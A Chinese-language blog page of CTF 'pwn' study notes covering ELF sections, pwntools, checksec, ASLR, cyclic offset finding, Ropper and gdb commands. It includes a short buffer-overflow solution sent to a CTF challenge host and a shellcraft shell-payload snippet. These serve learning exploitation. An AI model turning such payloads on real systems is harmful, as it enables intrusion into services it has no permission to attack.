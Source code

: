 ```yaml
---
title: PWN
date: 2025-02-07 00:05:38
tags:
  - CTF笔记
  - PWN
---
```


# PWN

## ELF 文件

ELF 文件中包含多个节 section.

| 名称             | 作用                   |
| ---------------- | ---------------------- |
| `.text`          | 代码                   |
| `.rdata`         | 字符串，不可修改的数据 |
| `.data`          | 已经初始化的可修改数据 |
| `.bss`           | 未被初始化的可修改数据 |
| `.ple` 与 `.got` | 动态链接函数地址       |
|                  |                        |

![1](https://ff-0xff.github.io/2020/04/14/GOT%E8%A1%A8/1.png)

> [GOT表介绍的博客](https://ff-0xff.github.io/2020/04/14/GOT%E8%A1%A8/)

``` shell
gdb a.out
start
vmmap
```

用 vmmap 可以看到内存的表

可以看到内存里有 `libc.so` 这个库

libc 直接运行可以显示出版本

``` shell
./libc-2.23.so
```



## 工具

### Pwntool

#### 本地调试

``` python
io = process("./vuln")
```

#### 返回可交互的界面

``` python
from pwn import *
io = remote('ip',port)
io.interactive()
```

#### checksec 查看文件信息

``` shell
checksec get_shell
```

会显示 

* Arch, 架构
* Stack: No canary 说明没有栈canary
* NX 防护. 如果 NX Enabled 说明堆栈不可执行
* PIE：在没有开启PIE的情况下，bss段的地址是固定的

#### ASLR

现代操作系统都默认开启 ASLR

ASLR: 开启时,堆栈,libc 的地址会随机化

### CYCLIC

可以生成可以定位的字符串

``` shell
cyclic 64 # 长度为64
```

确定偏移：先去gdb溢出后找到 Invalid address `0x62616164` 之类的

然后

``` shell
cyclic -l 0x62616164
```

得出偏移，然后可以放在

``` python
asm(shellcraft.sh()).lshift(<偏移量>, 'a')
```



### Stack Overflow 栈溢出

栈溢出是向高地址溢出

> 攻防世界 hello_pwn

``` python
from pwn import *
io = remote("61.147.171.105", 53481)
io.sendline(b"a"*4 + p64(0x6E756161))
io.interactive()
```



## ROP

### Ropper

#### 在Ubuntu添加Kali源

sudo 编辑 `/etc/apt/sources.list` 加入

``` shell
deb http://http.kali.org/kali kali-rolling main contrib non-free
```

然后添加GPG密钥

``` shell
wget -q -O - https://archive.kali.org/archive-key.asc | sudo apt-key add -
```

然后 apt update就可以了

#### 安装Ropper

``` shell
sudo apt install ropper
```

#### 使用 Ropper

打开ropper

``` shell
ropper
```

加载文件

``` shell
file main.main
```

搜索gadget

``` shell
search jmp
```

退出

``` shell
quit
```







## GDB 调试

### TUI

#### 打开TUI

``` shell
tui enable
```

#### 打开汇编窗口

``` shell
layout asm
```

#### 打印

``` shell
print counter
print $r3
```

#### 检查内存

``` shell
x /1wx 0x08000000
x /16wx $sp
```

